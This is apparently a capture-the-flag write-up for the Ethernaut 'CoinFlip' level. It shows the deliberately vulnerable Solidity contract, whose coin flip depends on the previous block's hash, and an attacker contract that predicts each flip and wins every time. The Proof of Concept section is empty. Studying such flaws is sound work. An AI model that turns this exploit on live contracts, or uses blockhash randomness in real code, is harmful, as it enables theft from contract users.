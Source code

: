# Ethernaut: 3. Coinflip

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

**Objective of CTF:**

- Guess the correct outcome 10 times in a row.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract CoinFlip {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## The Attack

In this attack, we will guess the supposed "random" flips by calling the attack from our contracts. The target contract is programmed to flip a coin on each block, so each guess we make must be on different blocks.

We can simply copy and paste their `flip` function in our contract, and then call their actual `flip` function based on the result. Here is our attacking contract with a `psychicFlip` function that always guesses correctly:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

// interface for target
interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attacker {
  CoinFlip coinflipTarget;
  using SafeMath for uint256;

  constructor(address _target) {
    coinflipTarget = CoinFlip(_target);
  }

  function psychicFlip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
    bool side = coinFlip == 1 ? true : false;

    bool result = coinflipTarget.flip(side);
    require(result, "Could not guess, abort mission.");
  }
}
```

That is pretty much it!

## Proof of Concept

...
